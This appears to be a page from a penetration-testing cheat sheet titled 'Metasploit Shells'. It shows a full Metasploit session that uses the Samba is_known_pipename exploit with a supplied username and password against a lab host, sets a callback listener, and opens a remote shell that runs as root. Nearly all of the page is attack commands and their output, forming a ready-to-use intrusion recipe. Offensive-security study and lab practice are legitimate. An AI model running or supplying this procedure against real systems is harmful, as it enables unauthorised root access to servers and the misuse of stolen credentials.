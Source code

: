 ```yaml
---
layout: default
title: Metasploit Shells
parent: Shells
nav_order: 6
---
```


# Metasploit Shells

---

## Samba - Is Known Pipe

Compromised credentials for an account can be used to gain a shell via the Metasploit module _exploit/linux/samba/is_known_pipename_

```bash
msfconsole -q
msf6 > use exploit/linux/samba/is_known_pipename
msf6 exploit(linux/samba/is_known_pipename) > set RHOST 172.16.5.10
msf6 exploit(linux/samba/is_known_pipename) > set SMBUser admin
msf6 exploit(linux/samba/is_known_pipename) > set SMBPass et1@sR7!
msf6 exploit(linux/samba/is_known_pipename) > set LHOST 172.16.5.101
msf6 exploit(linux/samba/is_known_pipename) > set SMB::AlwaysEncrypt false
msf6 exploit(linux/samba/is_known_pipename) > exploit

[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 172.16.5.10:445) at 2023-12-01 18:30:07 -0500

id
uid=0(root) gid=0(root) groups=0(root)
```
